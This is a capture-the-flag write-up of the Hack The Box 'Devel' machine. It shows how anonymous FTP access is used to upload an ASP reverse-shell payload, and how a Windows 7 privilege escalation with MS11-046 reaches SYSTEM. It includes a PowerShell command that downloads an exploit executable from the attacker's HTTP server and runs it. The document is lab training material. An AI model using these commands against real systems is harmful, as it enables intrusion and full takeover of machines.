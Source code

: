 
# Information Gathering

## Nmap
We begin our reconnaissance by running an Nmap scan checking default scripts and testing for vulnerabilities.

```console
root@kali:~# nmap 10.10.10.5 -sV
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-30 11:10 EDT
Stats: 0:00:25 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 11:11 (0:00:06 remaining)
Nmap scan report for 10.10.10.5
Host is up (0.29s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
80/tcp open  http    Microsoft IIS httpd 7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```
From the above output we can see that ports, **21** and **80** are open.

Let's try to connect to ftp

```console
root@kali:~# ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> passiv



150 Opening ASCII mode data connection.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
```
Here it is seen that ftp allows anonymous login. Let's go ahead and check if ftp allows the 'PUT' command.

![FTP](./Devel/Screenshot_3.png)
{**Figure 1:** Server runs on asp.net)

Idea is to craft a aspx payload and to deliver to the box using ftp PUT command.

We craft payload using msfvenom

![Msfvenom](./Devel/Screenshot_8.png)
(**Figure 2:** Msfvenom)

Delivering the payload
```console
ftp> put shell.asp
local: shell.asp remote: shell.asp
227 Entering Passive Mode (10,10,10,5,192,7).
125 Data connection already open; Transfer starting.
226 Transfer complete.
346 bytes sent in 0.00 secs (1.8748 MB/s)
````

Listening to netcat on port 4444 to catch the shell.

![Netcat](./Devel/Screenshot_4.png)
{**Figure 3:** Netcat listener)

# Exploitation  

Open the ip on the browser and navigate to the payload we delivered on the server.

![Payload](./Devel/Screenshot_5.png)
{**Figure 4:** Payload)

![Shell](./Devel/Screenshot_6.png)
{**Figure 5:** We got a reverse shell!)

![Low Shell](./Devel/Screenshot_7.png)
{**Figure 6:** Shell is a low privileged one)

Shell is a low privilged one, now for privesc.

# Privilege Escalation

![Sysinfo](./Devel/Screenshot_20.png)
{**Figure 7:** Here we see that the machine is running windows 7 build 7600)

Searching google for local prives for windows 7 reveals privesc payload. Next we download that and deliver it to the machine.

![Google](./Devel/Screenshot_19.png)
{**Figure 8:** Local Privesc)

We need to compile the file, all the instructions are in the payload file itself.

After the compilation we could deliver the payload either using ftp or using powershell. Here let's use powershell

Open a server on port 9005 using python

```console
python -m SimpleHTTPServer 9005
```

On the machine shell, type in the command to get a file using powershell
```console
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.20:9005/MS11-046.exe', 'c:\Users\Public\Downloads\MS46.exe')"
```

Exec the executable file

```console
c:\Users\Public\Downloads>MS46.exe
MS46.exe
```

```console
c:\Windows\System32>whoami
whoami
nt authority\system
```


## User Flag

In order to get the user flag, we change the directory to the user Desktop 'babis' and find 'user.txt'

## Root Flag

Change directory to the Administrator Desktop folder and find 'root.txt'

# Conclusion
This box could also be solved using msfconsole, catch the shell using meterpreter with the apsx payload, once the shell is acquired background it and run local_exploit_suggester on the session and run the exploit which the module suggests. This would give you the privileged shell.

